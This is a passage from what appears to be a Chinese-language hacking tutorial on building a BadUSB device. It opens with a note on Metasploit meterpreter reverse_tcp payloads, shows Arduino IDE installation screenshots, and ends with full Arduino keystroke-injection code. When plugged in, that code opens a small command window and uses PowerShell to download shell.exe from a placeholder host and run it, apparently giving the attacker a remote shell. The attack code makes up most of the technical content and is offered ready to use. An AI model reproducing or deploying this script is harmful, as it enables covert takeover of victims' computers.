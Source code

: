 注：如果是64位系统，Payload则更改为：windows/x64/meterpreter/reverse_tcp对于小白很陌生带两个值是可以实现自动迁移进程的功能，关闭其中一进程并不影响另一进程。

-k选项并不适用于所有模板，请提前做好测试。

##  **安装Arduino**

**首先我们打开****arduino****安装包**

![image-20230527100811363](https://fastly.jsdelivr.net/gh/hack-scan/Blog-pic/posts/202305271008384.png)

![image-20230527100815346](https://fastly.jsdelivr.net/gh/hack-scan/Blog-pic/posts/202305271008365.png)

![image-20230527100819320](https://fastly.jsdelivr.net/gh/hack-scan/Blog-pic/posts/202305271008341.png)

![image-20230527100823362](https://fastly.jsdelivr.net/gh/hack-scan/Blog-pic/posts/202305271008382.png)

![image-20230527100826999](https://fastly.jsdelivr.net/gh/hack-scan/Blog-pic/posts/202305271008024.png)

**完成了安装。**

**配置如下：**

![image-20230527100836501](https://fastly.jsdelivr.net/gh/hack-scan/Blog-pic/posts/202305271008524.png)

完成安装。

![image-20230527100849268](https://fastly.jsdelivr.net/gh/hack-scan/Blog-pic/posts/202305271008300.png)

##  **烧录代码**

**代码贴出**：

```shell
#include <Keyboard.h>
void setup() {//初始化
  Keyboard.begin();//开始键盘通讯 
  delay(5000);//延时
  Keyboard.press(KEY_LEFT_GUI);//win键 
  delay(500); 
  Keyboard.press('r');//r键 
  delay(500); 
  Keyboard.release(KEY_LEFT_GUI);
  Keyboard.release('r');
  delay(500); 
  Keyboard.press(KEY_CAPS_LOCK);
  Keyboard.release(KEY_CAPS_LOCK);
  Keyboard.println("CMD.EXE /t:01 /k MODE con: cols=16 lines=2");
  delay(1000);
  Keyboard.println("POWERSHELL -cOMMAND $CLNT = NEW-OBJECT sYSTEM.nET.wEBcLIENT;$URL= 'http://ip/shell.exe';$FILE = ' c:\\SHELL.EXE ';$CLNT.dOWNLOADfILE($URL,$FILE);");
  delay(3000);
  Keyboard.println("C:\\SHELL.EXE&EXIT");
  Keyboard.press(KEY_CAPS_LOCK);
  Keyboard.release(KEY_CAPS_LOCK);
  Keyboard.end();//结束键盘通讯 
}
void loop()//循环
{
}

```

